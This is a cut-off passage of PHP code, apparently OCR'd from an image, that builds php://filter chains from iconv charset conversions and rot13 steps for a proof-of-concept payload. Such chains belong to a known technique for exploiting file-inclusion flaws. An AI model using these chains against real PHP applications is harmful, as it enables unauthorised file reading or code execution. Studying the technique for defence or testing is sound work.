 ```php
        'EUC-KR',
        'UHC',
        'ISO-2022-KR',
        'Windows-1251',
        'Windows-1252',
        'CP866',
        'KOI8-R',
        'KOI8-U',
        'ArmSCII-8',
    ];

    public $poc_stack = [
        'convert' => [
            'from' => 'UCS-2LE',
            'to' => 'UCS-2BE'
        ],

        'string' => 'rot13'
    ];

    public function concatConvert($convfrom,$convto){
        return 'convert.iconv.'.$convfrom.'.'.$convto.'|';
    }

    public function concatString($stringop){
        return 'string'.'.'.$stringop.'|';
    }

    public function convert($convfrom,$convto,$poc){
        return iconv($convfrom,$convto,$poc);
    }


    public function string($stringop,$poc)
    {
        return $this->string[$stringop]($poc);
    }

    public function Run()
    {
        $result = "";
        $result .= $this->prefix;
        $result .= $this->base;
        $result_poc = "";

        foreach (array_keys($this->poc_stack) as $item) {
            if($item == 'string'){
                $result .= $this->concatString($this->poc_stack[$item]);
                $this->poc = $this->string($this->poc_stack[$item],$this->poc);
            }elseif ($item=='convert'){
                $result .= $this->concatConvert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to']);
                $this->poc = $this->convert($this->poc_stack[$item]['from'],$this->poc_stack[$item]['to'],$this->poc);

            }elseif ($item=='$zlib'){
                ;
            }
        }

        $tmp = $result;

        echo "length:",strlen($tmp),"\n";
```